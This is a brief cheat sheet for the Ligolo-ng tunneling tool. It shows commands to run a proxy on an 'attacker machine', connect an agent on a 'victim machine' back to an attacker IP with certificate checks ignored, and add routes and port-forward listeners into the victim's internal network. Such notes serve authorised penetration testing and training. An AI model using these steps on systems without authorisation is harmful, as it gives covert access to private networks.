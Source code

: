# Lingolo-ng

## Basic Configuration

### Create a connection

#### **Proxy machine**

Start the Lingolo proxy with a self-signed certificate on attacker machine with root privileges.

```bash
sudo proxy --selfcert
```

#### Agent machine

Run the agent on the victim machine to connect to the Lingolo proxy.

```bash
./agent.exe --connect <attacker_ip>:<proxy_port> --ignore-cert
```

### Network Configuration

After the agent successfully connects, select the session.

```bash
session
```

### Start the network interface

Create a network interface on the proxy's machine.

```bash
tunnel_start --tun ligolo
```

### Add a new routing

List available interfaces on the agent.

```bash
ifconfig
```

Add a route to the internal interface.

```bash
add_route --name ligolo --route <internal_interface>
```

### Port Forward Listeners

Add a Listener.

```bash
listener_add --addr <agent_ip>:<port> --to <proxy_ip>:<port>
```

List Active Listeners.

```bash
listener_list
```

Stop a Listener.

```bash
listener_stop <ID>
```

### Delete interface

list interfaces

```bash
interface_list
```

Delete interface

```bash
ifdel --name ligolo
```
